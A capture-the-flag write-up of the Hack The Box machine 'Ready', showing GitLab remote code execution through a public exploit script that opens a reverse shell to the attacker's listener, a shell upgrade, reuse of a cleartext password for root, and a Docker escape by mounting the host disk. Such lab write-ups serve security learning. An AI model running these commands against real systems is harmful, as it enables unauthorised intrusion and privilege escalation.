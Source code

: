 ```yaml
---
title: "📦 HTB - Ready"
date: 2021-03-20 10:00:00
tags: ["htb", "writeup"]
categories: ["HTB"]
author: "0xNinja"
resources:
- name: "featured-image"
  src: "featured-image.png"
---
```


> Cool box, maybe too easy for a medium? Got reverse shell in minutes, but stuck for root's password for hours 😅

## TL;DR

Gitlab RCE, get reverse shell. Privesc with cleartext root password, escape Docker to own the box.

## Footholds

### nmap

```
Starting Nmap 7.80 ( https://nmap.org ) at 2021-03-14 16:00 UTC
Nmap scan report for 10.10.10.220
Host is up (0.035s latency).
Not shown: 998 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
5080/tcp open  http    nginx
| http-robots.txt: 53 disallowed entries (15 shown)
| / /autocomplete/users /search /api /admin /profile 
| /dashboard /projects/new /groups/new /groups/*/edit /users /help 
|_/s/ /snippets/new /snippets/*/edit
| http-title: Sign in \xC2\xB7 GitLab
|_Requested resource was http://10.10.10.220:5080/users/sign_in
|_http-trane-info: Problem with XML parsing of /evox/about
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 14.36 seconds
```

We get an NGINX service running on port `5080`, and we know there is a GitLab on it. Let's check it out!

## Entrypoint

![gitlab.png](gitlab.png)

First thing I did was creating an account to see what's up with this GitLab. Unfortunately, there is no open projects we can mess with:

![projetcs.png](gitlab_projects.png)

A common reflex here is to check the version of the service, let's go to `/help`:

![version.png](gitlab_version.png)

This seems very interesting for us! What do we have for this version?

![vulns.png](gitlab_vulns.png)

Well, we can see there are a lot of exploits in the wild. Let's use the first we find: https://github.com/dotPY-hax/gitlab_RCE

```sh
python gitlab_rce.py http://ready.htb:5080 10.10.14.28
```

We follow the instructions, and create a listener with netcat:

```
nc -vlnp 42069 
Connection from 10.10.10.220:39478
bash: cannot set terminal process group (509): Inappropriate ioctl for device
bash: no job control in this shell
git@gitlab:~/gitlab-rails/working$
```

And we got a reverse shell!

## User

Very simple user here:

```
git@gitlab:~$ cat /home/dude/user.txt
```

### Upgrade shell

We want a good shell here:

```
git@gitlab:~$ python3 -c 'import pty;pty.spawn("/bin/bash")'
^Z
ninja@null $ stty raw -echo; fg
git@gitlab:~$
```

![shell.png](shell.png)

We want to get root now.

## Root

The classical privesc enumerators, like `linenum`, `linpeas` or `lse` are telling us we are in a Docker container. We will firstly try to get root in the container in order to escape from it later.

### Get root in container

Running the enumeration scripts, we get some passwords on the system:

![passwords.png](passwords.png)

Of course, there is no way a GitLab SMTP password could be root's as well, right?

![glissade.png](glissade.png)

![](https://media.giphy.com/media/3oEhmGVYRFGFLDYSWI/giphy.gif)

### Escape the container

Now that we are root in the container, it is pretty easy to escape:

```
mkdir /tmp/cheh
mount /dev/sda2 /tmp/cheh
ls /tmp/cheh
cat /tmp/cheh/root/root.txt
```

![root.png](root.png)

Reference: https://book.hacktricks.xyz/linux-unix/privilege-escalation/docker-breakout#i-own-root

![Rooted](rooted.png)

